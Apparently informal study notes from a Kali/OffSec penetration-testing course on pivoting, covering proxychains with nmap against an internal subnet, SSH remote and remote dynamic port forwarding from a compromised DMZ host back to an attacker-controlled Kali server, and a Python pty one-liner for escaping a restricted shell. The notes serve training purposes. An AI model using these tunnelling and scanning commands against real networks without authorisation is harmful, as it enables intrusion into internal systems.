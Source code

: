 in general 
proxychins <command>

this now means we can use local kali tools on the internal network:
sudo proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217

running nmap at the internal subnet

*nmap does have --proxy, but offsec says it's still under development according to the documentation


SSH Remote Port Forwarding

in real world inbound traffic is controlled more compared to outbound traffic

outbound connections are more difficult to control comparred to inbound, corp net allow many types of common network traffic out, including ssh

ssh remote port forwarding connect back to an attacker controled ssh server and bind the listening port there

when compared to local and dynamic port forwarding the listening port is bound to ssh client, remote port forwarding the listening port is bound to the ssh server

using same senario as above, but with firewall

suppose:
DMZ connect to kali over shh, tcp port 2345 is bound to the loopback interface on kali, packets sent to 2345 are pushed back to DMZ via ssh tunnel -> DB

note that strong unique password is recommanded for kali machine

starting the ssh server:
sudo systemctl start ssh

check that ssh port is open
sudo ss -ntplu

escape restricted shell
python3 -c 'import pty; pty.spawn("/bin/sh")'

ssh -N -R 127.0.0.1:<kali listen port>:<DB IP>:5432 kali@<my ip>
kali listen port can be what ever

since the ssh command follows this patter:
[LOCAL_IP:]LOCAL_PORT:DEST_IP:DEST_PORT

kali's target now becomes 127.0.0.1


SSH Remote Dynamic Port Forwarding

is dynamic port forwarding, but remote, so we'll be the host ssh server with dynamic connections to multiple IP and ports

suppose same senario, but with Windows server on the DMZ

to bind the SOCKS proxy to port 9998 on the loopback interface we need to specify -R <port> 

ssh -N -R 9998 kali@<my ip>
this uses the 9998 port
